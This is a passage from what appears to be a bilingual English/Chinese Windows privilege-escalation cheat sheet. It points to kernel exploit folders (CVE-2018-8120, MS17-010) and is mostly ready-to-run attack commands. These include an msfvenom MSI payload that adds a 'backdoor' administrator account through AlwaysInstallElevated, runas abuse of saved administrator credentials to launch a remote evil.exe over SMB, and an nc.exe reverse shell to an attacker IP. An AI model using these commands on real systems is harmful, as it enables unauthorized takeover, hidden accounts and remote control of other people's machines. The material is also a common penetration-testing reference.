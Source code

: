 - [CVE-2018-8120](./CVE-2018-8120)   [Win32k Elevation of Privilege Vulnerability]  (Windows 7 SP1/2008 SP2,2008 R2 SP1)
- [MS17-010](./MS17-010) 　[KB4013389]　　[Windows Kernel Mode Drivers]　　(windows 7/2008/2003/XP)
- ...


#### EoP - AlwaysInstallElevated

```
# ---------------
# Check if these registry values are set to "1".
# 检查这些注册表值是否设置为“1”。

$ reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
$ reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

# Then create an MSI package and install it.
# 然后创建一个MSI包并安装它。

$ msfvenom -p windows/adduser USER=backdoor PASS=backdoor123 -f msi -o evil.msi
$ msiexec /quiet /qn /i C:\evil.msi

# 可以使用Metasploit的 exploit/windows/local/always_install_elevated
```


#### EoP - Insecure GUI apps

EoP - 不安全的GUI应用程序

```
# ---------------
# Application running as SYSTEM allowing an user to spawn a CMD, or browse directories.
# 作为SYSTEM运行的应用程序允许用户生成CMD或浏览目录。

# Example: "Windows Help and Support" (Windows + F1), search for "command prompt", click on "Click to open Command Prompt"
# 示例：“Windows帮助和支持”（Windows + F1），搜索“命令提示符”，单击“单击以打开命令提示符”
```

#### EoP - Runas

```
# ---------------
# Use the cmdkey to list the stored credentials on the machine.
# 使用cmdkey列出计算机上存储的凭据

cmdkey /list
如结果
Currently stored credentials:
 Target: Domain:interactive=WORKGROUP\Administrator
 Type: Domain Password
 User: WORKGROUP\Administrator


# Then you can use runas with the /savecred options in order to use the saved credentials. 
# The following example is calling a remote binary via an SMB share.
# 然后，您可以用runas 的 /savecred 选项，以便使用保存的凭据。
# 以下示例通过SMB共享调用远程二进制文件。

runas /savecred /user:WORKGROUP\Administrator "\\10.XXX.XXX.XXX\SHARE\evil.exe"


# Using runas with a provided set of credential.

C:\Windows\System32\runas.exe /env /noprofile /user:<username> <password> "c:\users\Public\nc.exe -nc <attacker-ip> 4444 -e cmd.exe"
```